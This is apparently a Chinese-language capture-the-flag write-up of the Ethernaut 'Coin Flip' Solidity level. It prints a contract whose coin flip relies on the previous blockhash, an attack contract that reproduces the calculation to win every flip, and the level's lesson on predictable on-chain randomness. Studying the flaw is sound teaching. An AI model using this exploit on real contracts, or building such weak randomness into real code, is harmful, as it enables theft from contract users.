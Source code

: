 # 3.Coin Flip

## 题目描述

![img](/assets/PeiQi-Wiki/img/1645011948059-f3f2ea31-ba84-45db-b702-a7d7b2e428b1.png)

## 解题过程

题目源码

```javascript
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import '@openzeppelin/contracts/math/SafeMath.sol';

contract CoinFlip {

  using SafeMath for uint256;
  uint256 public consecutiveWins;
  uint256 lastHash;
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

  constructor() public {
    consecutiveWins = 0;
  }

  function flip(bool _guess) public returns (bool) {
    uint256 blockValue = uint256(blockhash(block.number.sub(1)));

    if (lastHash == blockValue) {
      revert();
    }

    lastHash = blockValue;
    uint256 coinFlip = blockValue.div(FACTOR);
    bool side = coinFlip == 1 ? true : false;

    if (side == _guess) {
      consecutiveWins++;
      return true;
    } else {
      consecutiveWins = 0;
      return false;
    }
  }
}
```

这里通过计算上一区块的信息与一个固定的数值相计算，就不存在随机的情况了，除了第一次的上一区块随机，其他均为可知的值

![img](/assets/PeiQi-Wiki/img/1645054208418-cc8c6e81-78ce-4c64-846c-099cbc532ac2.png)

直接使用原合约的计算方法，部署攻击合约

```javascript
contract Attack {
  using SafeMath for uint256;
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

  address addr = 0x36D583674B7afE99c0c8FDE510BbA46ec7b96531;
  CoinFlip coin = CoinFlip(addr);

  function attack() public{
    uint256 blockValue = uint256(blockhash(block.number.sub(1)));
    uint256 coinFlip = blockValue.div(FACTOR);
    bool side = coinFlip == 1 ? true : false;
    coin.flip(side);
  }
}
```

调用10次完成关卡

![img](/assets/PeiQi-Wiki/img/1645054867204-01557284-20da-4ba5-b878-41839a6cd94c.png)

```javascript
通过solidity产生随机数没有那么容易. 目前没有一个很自然的方法来做到这一点, 而且你在智能合约中做的所有事情都是公开可见的, 包括本地变量和被标记为私有的状态变量. 矿工可以控制 blockhashes, 时间戳, 或是是否包括某个交易, 这可以让他们根据他们目的来左右这些事情.
想要获得密码学上的随机数,你可以使用 Chainlink VRF, 它使用预言机, LINK token, 和一个链上合约来检验这是不是真的是一个随机数.
一些其它的选项包括使用比特币block headers (通过验证 BTC Relay), RANDAO, 或是 Oraclize).
```